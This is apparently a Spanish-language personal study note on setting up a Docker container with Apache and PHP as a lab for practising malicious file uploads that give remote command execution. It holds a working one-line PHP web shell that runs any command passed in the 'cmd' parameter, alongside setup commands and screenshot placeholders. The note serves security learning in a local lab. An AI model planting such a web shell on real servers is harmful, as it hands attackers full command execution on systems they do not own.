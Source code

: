 Podemos crear un contenedor de Docker que tenga un servidor web que interprete php; y de esta forma practixar con la subida de un fichero php malicioso para obtener ejecución remota de comandos. Por tanto nos creamos el Dockerfile de docker para montar la imagen con todo lo necesario:
![[Pasted image 20230417091451.png]]
A continuación ejecutamos el comando Docker Build para crear la imagen a partir de este Dockerfile:
![[Pasted image 20230417091520.png]]
Y vemos que al ejecutarlo hay un punto donde nos pide la zona geográfica y se queda bloqueado:
![[Pasted image 20230417091551.png]]
Aquí, si miramos por internet y usamos la IA, vemos que en el Dockerfile hay que poner un parámetro para corregir esto:
![[Pasted image 20230417091626.png]]
Por tanto loa añadimos al Dockerfile:
![[Pasted image 20230417092734.png]]
Ahora la instalación procederá correctamente al ejecutar el Docker Build. Por tanto ahora vamos a entrar dentro de este contenedor para exponer el puerto 80:
![[Pasted image 20230417091928.png]]
Instalamos systemctl para arrancar el proceso de apache:
```bash
apt install systemctl
systemctl start apache2
```
Y ahora este contenedor que tiene expuesto el puerto 80 significa que si accedemos desde la máquina anfitrión al localhost, podremos acceder a la plantilla por defecto de apache:
![[Pasted image 20230417093055.png]]
Ahora dentro del contenedor con nano pwned.php (por ejemplo), nos creamos un fichero php malicioso:
```php
<?php
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```
Y entonces así nos quedaría el directorio del servidor web:
![[Pasted image 20230417093219.png]]
Esto significa que si dentro del servidor de apache llamamos a este archivo, vamos a acceder a él pudiendo ejecutar un comando:
![[Pasted image 20230417093350.png]]


